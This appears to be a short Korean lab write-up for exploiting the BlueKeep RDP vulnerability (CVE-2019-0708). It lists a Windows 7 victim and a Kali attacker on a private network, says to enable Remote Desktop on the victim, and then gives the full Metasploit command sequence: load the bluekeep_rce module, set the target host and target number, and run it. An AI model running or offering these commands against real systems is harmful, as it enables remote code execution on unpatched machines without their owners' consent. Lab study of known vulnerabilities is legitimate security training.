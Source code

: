 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**


***


# **Environment**

| Type       | OS                        | IP              |
| :---       | :---                      | :---            |
| Victim     | Windows 7 Ultimate K 7601 | 192.168.108.175 |
| Attacker   | Kali 2019                 | 192.168.108.132 |

# **Setting**

Victim의 원격 데스크톱 활성


# **Exploit**

metsploit 실행

```sh
msf5 > use windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhost 192.168.108.175
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

![](images/2022-05-18-22-22-41.png)
